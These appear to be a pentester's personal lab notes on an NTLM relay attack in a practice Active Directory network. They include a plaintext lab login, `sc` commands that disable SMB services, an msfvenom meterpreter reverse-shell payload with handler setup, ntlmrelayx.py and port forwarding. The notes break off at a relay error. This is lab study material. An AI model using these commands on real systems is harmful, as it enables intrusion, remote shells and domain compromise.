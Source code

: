 
```
DC-SRV01
10.201.11.30
```

```
S-SRV02
10.201.11.32
```
I will see how can i craft a NTLM so that i could catch it.


Let's get the RDP for 10.201.11.35
```
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.201.11.35 /u:'Sardarji' /p:'Password123!'
```


And will check if we have the access to the SMB this way
```
\\10.201.11.30
```
![[Pasted image 20240907153943.png]]


```
\\10.201.11.32
```
![[Pasted image 20240907154138.png]]

I also tend to check for ping 
![[Pasted image 20240907164157.png]]

So it's clear that one is refusing and one is not so the victim will be 10.201.11.30
But let's see how NTLM works as i didn't know how the algo works like i now we can only relay it but cannot replay it.

Now that we understand what an NTLM hash is and how it is hashed, we can look at how it responds and requests and why it can only be relayed and not replayed.

```
evil-winrm -u Sardarji -p 'Password123!' -i 10.201.11.35 -s /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network 
```


 Lots of File Server Shares are often auto-mounted via Startup Scripts when a user logs onto their Account, this making it the best option in my opinion


If all users in an AD Domain have a folder that auto-mounts, you simply need to compromise: 
- the File Server, 
- gain local Administrative Rights, 
and execute this attack and play the waiting game for a Domain/Enterprise Admin to log into their account and then it’s game over.

https://blog.spookysec.net/remote-ntlm-relaying/

```
sc stop netlogon
```

```
sc stop lanmanserver
```

```
sc config lanmanserver start= disabled
```

```
sc stop lanmanworkstation
```

```
sc config lanmanworkstation start= disabled
```

![[Pasted image 20240907170321.png]]

>[!bug] Don't RESTART THE MACHINE Yet


Now we have to configure the meterpreter shell through MSF console.
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=53 -f exe > meterpreter_shell.exe
```


Setup up the multi handler and run it 

```
use exploit/multi/handler
```

```
set payload windows/x64/meterpreter/reverse_tcp
```

```
set lhost tun0
```

```
set lport 53
```

Run the payload in the .35 rdp before we restart the machine cuz last time it went down and we have to wait for 5 hours so that it get's reset.
![[Pasted image 20240909014618.png]]

![[Pasted image 20240909014646.png]]



After than run the NTLMrelayx.py

```
sudo ntlmrelayx.py -t smb://10.201.11.30 -smb2support -socks
```

![[Pasted image 20240909014851.png]]

```
portfwd
```

```
portfwd add -R -L 0.0.0.0 -l 445 -p 445
```

Will it tomorrow as we are getting this idea 
```
Failed to create relay: The address is already in use or unavailable: (:445).
```



